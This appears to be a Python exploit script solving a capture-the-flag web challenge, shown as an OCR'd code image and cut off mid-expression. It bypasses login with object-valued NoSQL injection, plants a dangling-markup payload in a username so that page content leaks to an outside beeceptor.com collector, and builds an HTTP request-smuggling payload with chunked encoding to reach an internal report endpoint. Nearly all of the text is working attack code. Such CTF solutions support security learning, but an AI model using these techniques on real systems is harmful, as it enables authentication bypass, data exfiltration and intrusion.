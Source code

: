 ```python
import requests
import json
import sys
import urllib.parse

domain = "chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627"
url = f"http://{domain}"
login_endpoint = f"{url}/login"
token_endpoint = f"{url}/token"
verify_endpoint = f"{url}/verify"

login_payload = {"email": {"email":1}, "password": {"password":1}}

## Login Stuff
r_login = requests.post(login_endpoint, json=login_payload)

cookie = ""

for c in r_login.cookies:
    if c.name == "connect.sid":
        cookie = f"{c.name}={c.value}"

## Generate dangling markup injection token
headers = {"Cookie": cookie}
token_payload = {"username":"\"/><img src=\"https://test-dangling-markup.free.beeceptor.com?"}
r_token = requests.post(token_endpoint, json=token_payload, headers=headers)
bad_token = urllib.parse.quote(r_token.json().get("token"))

## Perform HTTP Request Smuggling

body = '{"url":"http://localhost:8000/verify?token=' + bad_token + '"}'
body = body.encode()
cookie = cookie.encode()

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: app:8000\r\n" +
    b"Content-Type: application/json\r\n" +
    b"Content-Length: " + str(len(body)).encode() + b"\r\n" +
    b"Cookie: " + cookie + b"\r\n" +
    b"\r\n" +  
    body + b"\r\n"
    b"\r\n" + 
    b"0\r\n" +
    b"\r\n"
)

def h(n):
    return hex(n)[2:].encode()

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /login HTTP/1.1\r\n" +
    b"Host: " + domain.encode() + b"\r\n" + 
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + 
    b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
```
